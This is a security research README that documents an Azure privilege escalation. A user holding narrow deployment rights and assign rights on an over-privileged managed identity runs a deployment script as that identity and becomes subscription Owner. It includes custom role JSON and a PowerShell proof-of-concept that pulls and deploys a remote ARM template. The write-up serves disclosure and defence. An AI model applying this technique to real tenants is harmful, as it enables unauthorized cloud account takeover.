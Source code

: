 # Project Miaow (Managed Identity Adds Owner)

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/20947a9e-ec9a-4a3f-951e-0759eb043789)  

Mr. KFC Harland Sanders has `read` and `assign` permissions on the User-Assigned Managed Identity

### Custom Role User-Assigned Managed Identity User (custom role)  

> This role only gives permissions to `read` and `assign` a user-assigned managed identity to follow the least privilege
> 
```json
{
    "id": "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50/providers/Microsoft.Authorization/roleDefinitions/44e27d73-8dd7-4428-8bda-78406afb75c1",
    "properties": {
        "roleName": "Managed Identity Consumer",
        "description": "",
        "assignableScopes": [
            "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50"
        ],
        "permissions": [
            {
                "actions": [
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/read",
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/assign/action"
                ],
                "notActions": [],
                "dataActions": [],
                "notDataActions": []
            }
        ]
    }
}
```

The User Assigned Managed Identity `super-owner` has permission `User Access Administrator` on a specified scope, in this case the subscription level.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/103fe92a-09c9-493b-9865-04fb3df40a94)


Mr. Harland has `Deployment Administrator` permissions on a resource group, and no further permissions within the subscription.

### Custom Role: Deployment Administrator (permissions to create deployment script)  

> This role has less permissions than a `contributor` to follow the least privilege principle.
> 
```json
{
  "roleName": "Deployment Administrator",
  "description": "Configure least privilege for the deployment principal in deployment script",
  "type": "customRole",
  "IsCustom": true,
  "permissions": [
    {
      "actions": [
        "Microsoft.Storage/storageAccounts/*",
        "Microsoft.ContainerInstance/containerGroups/*",
        "Microsoft.Resources/deployments/*",
        "Microsoft.Resources/deploymentScripts/*"
      ],
    }
  ],
  "assignableScopes": [
    "[subscription().id]"
  ]
}
```

Harland has no access to the Resource group where the user assigned managed identity resides nor any other resources groups and resources in Azure.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/68a01789-dace-4a1a-9808-49c10d8f9bbe)

Interesting note: when requesting the permissions of Mr. Harland via PowerShell, only the `Resource Group` permissions are shown.
The custom role assignment to the `user-assigned` are *not* displayed.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/016957aa-92db-4b5d-a881-3c372ecb9ed4)

>
>   

## Proof Of Concept

1. Mr. Harland logs in to Azure PowerShell to deploy the template.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/c977cd5b-e21a-4e43-9d82-40b14a385fce)

2. Deploys an ARM template to the designated resource group that contains a deployment script

```PowerShell
New-AzResourceGroupDeployment `
  -name miaow `
  -ResourceGroupName kentucky-fried-veggies `
  -TemplateObject ((Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/SecureHats/azure-misfit/azurekid/priv-esc/poc/priv-esc-arm-template/azuredeploy.json').Content | ConvertFrom-Json -AsHashtable) `
  -managedIdentityName 'super-owner' `
  -managedIdentityResourceGroup "azure-misfit" `
  -principalId "301dfac7-8f45-48ac-9868-e1f0e875385c"
```

> NOTE: I am invoking the ARM template from GitHub so the repository does not need to be cloned to execute the deployment.

### Provided parameters
```yaml
name:                         The display name of the deployment to the Azure Resource Group
ResourceGroupName:            The name of the resource group which the user has access to
TemplateObject:               The ARM template to deploy to the target resource group.
managedIdentityName:          The name of the managed identity with role assignment permissions on a scope
managedIdentityResourceGroup: The resource group where the managed identity resides
principalId:                  The objectId of the user that is granted permissions via the deployment script
```

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/2e2ec2e8-e3a2-4cef-b474-9734a7f481c9)

During the deployment in the target resource group, a storage account, container instance and deploymentScript resource is created.  

The script in the DeploymentScript is executed in the context of the use assigned managed identity.  
After completion the DeploymentScript will show `Miaow`

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/403a0076-d2ab-4540-9715-f5c022f641c8)

# We are now `OWNER` of the subscription

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/e70829d3-afd9-4e7e-9cb0-ea68185576be)




